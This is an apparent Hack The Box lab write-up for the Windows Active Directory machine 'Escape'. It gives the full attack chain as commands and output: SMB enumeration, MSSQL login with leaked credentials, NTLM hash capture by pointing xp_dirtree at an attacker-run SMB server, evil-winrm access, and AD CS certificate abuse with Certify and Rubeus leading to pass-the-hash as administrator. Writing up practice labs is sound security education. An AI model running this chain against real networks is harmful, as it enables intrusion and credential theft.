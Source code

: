```yaml
---
title: "Hack The Box - Escape [Medium]"
date: 2023-06-10T02:01:27+03:00
draft: true
tags: ["hackthebox"]
---
```


This is a Windows Machine which is part of an Active Directory. I would try my best to explain the stuff that I did, since that I've seen pretty bad write-ups that are not explaining anything. I also want to be honest, and I will link every write-up that I used to exploit the machine. 

I am still learning Active Directory at the time of writing this, so there might be errors, I will do my best to mitigate that!

## Enumerating

I started with a simple `nmap` scan.

```bash
$ nmap -Pn 10.10.11.202
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Now since I am new to Active Directory I turned to https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb to check what I can try.

Eventually, after trying most of them, I landed on `smbclient`

```bash
$ smbclient --no-pass -L 10.10.11.202
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Public          Disk      
SYSVOL          Disk      Logon server share 
```

This is a list of shared folders, the one that we can take a look at is `Public`

```bash
$ smbclient -N //10.10.11.202/Public
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022

  5184255 blocks of size 4096. 1276406 blocks available
smb: \> get "SQL Server Procedures.pdf"
getting file \SQL Server Procedures.pdf of size 49551 as SQL Server Procedures.pdf (62.8 KiloBytes/sec) (average 62.8 KiloBytes/sec)
```

Opening, the PDF states that we can use `PublicUser:GuestUserCantWrite1` to log in to the SQL Server. We can use the `impacket-mssqlclient` which is a tool 

```bash
$ impacket-mssqlclient WORKGROUP/PublicUser:GuestUserCantWrite1@10.10.11.202
```

Once I was in I started enumerating the database, looking at this and that, but I had no luck, I turned to some write-ups to follow up.

Now most of the write-ups are just skipping the explanation of this step, but I think that it is really important to know what's going on, so I will do my best to explain it.

Following up this https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack attack, I tried the following thing:

I checked if I can execute `xp_dirtree`:

```SQL
SQL> EXEC sp_helprotect 'xp_dirtree';
Owner    Object                 Grantee        Grantor   ProtectType   Action           Column   

------   --------------------   ------------   -------   -----------   --------------   ------   

sys      xp_dirtree             public         dbo       b'Grant     '   Execute          .        
```

It turns out I can, so to capture the authentication hash, I need to set up an SMB server:

```bash
# My Machine
$ impacket-smbserver -smb2support smb ./smb
```

And then to execute the `xp_dirtree` on the SQL Server

```SQL
SQL> exec master.dbo.xp_dirtree '\\<myIP>\smb'
```

Doing this would catch the `AUTHENTICATE_MESSAGE`, the user and the hash.

```bash
$ impacket-smbserver -smb2support smb ./smb

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,52180)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:84e0a29415d2823f80593c9bc45d158c:010100000000000080fba2b8945ed9010f6267444f7024440000000001001000780056007a005000590061005000570003001000780056007a0050005900610050005700020010006c004f0054006f006f00540076007700040010006c004f0054006f006f005400760077000700080080fba2b8945ed90106000400020000000800300030000000000000000000000000300000c57e7de4e6e8e7baebb297a4bfc1a9019bc96f8f58ffbd9cb233cec428ece87f0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100340032000000000000000000
```

Now I need to crack the hash, I won't post the results here, so you have to figure that one on your own, it is simple enough! :) 

Using the cracked password, I can log in using the `evil-winrm`

```bash
$ evil-winrm --ip 10.10.11.202 --user sql_svc --password $(cat ./password)
```

Now, we need to start enumerating again. I used [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
*Evil-WinRM* PS C:\Users\sql_svc\Documents> upload /home/syl/tools/win/winPEASany.exe
```

I eventually stumbled across interesting files and I've enumerated the users. The interesting file was `C:\SQLServer\Logs\ERRORLOG.BAK` and upon further inspection I've got the password for the user `Ryan.Cooper`.

```bash
$ evil-winrm --ip 10.10.11.202 --user Ryan.Cooper --password $(cat ./password ryan_password)
...
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> gc ../Desktop/user.txt
<user_hash>
```

Now I needed to escalate, I've used this guide for misconfigured certificates that cause AD CS Domain Escalation. https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation

I've uploaded Certify to the SQL Server (user login) and tried to find vulnerable certificates.

> **NOTE**: Certify is a tool to enumerate and abuse misconfigured AD CS, you can find its source code here: https://github.com/GhostPack/Certify. Unfortunately(or fortunately) there aren't any prebuilt binaries and you have to build it yourself. It is well explained in the README.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./Certify.exe find /vulnerable
...
[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
```

With that tool, I found a vulnerable certificate that I can use to impersonate an administrator. Following up the attack on hacktricks:

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> .\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator

... CERTIFICATE ...

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

I've downloaded the certificate on my machine and ran the command to convert it to `pfx` and I've uploaded it back to the server.

Using another tool called [Rubeus](https://github.com/GhostPack/Rubeus) that I've used to send raw request for a TGT towards the DC.

```powershell
$ ./Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /password:123

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\administrator'
[*] Using domain controller: fe80::5438:a078:e66d:b560%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
...
[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : <NTLM HASH>
```

Now, that gave me the NTLM Hash, which is the cryptographic format in which user passwords are stored on Windows systems.

I can use that with:

```
$ evil-winrm -H "<NTLM HASH>" -u "administrator" -i 10.10.11.202
M* PS C:\Users\Administrator\Documents> gc ../Desktop/root.txt
<root_hash>
```


# References

- https://blog.zerospl0it.com/posts/Escape/
- https://yu8pentest.blogspot.com/2023/02/escape.html
- https://medium.com/@Kushagra007/writeup-escape-hackthebox-dbee2d761d15
- https://breached.vc/Thread-Escape-HTB-Discussion?highlight=escape
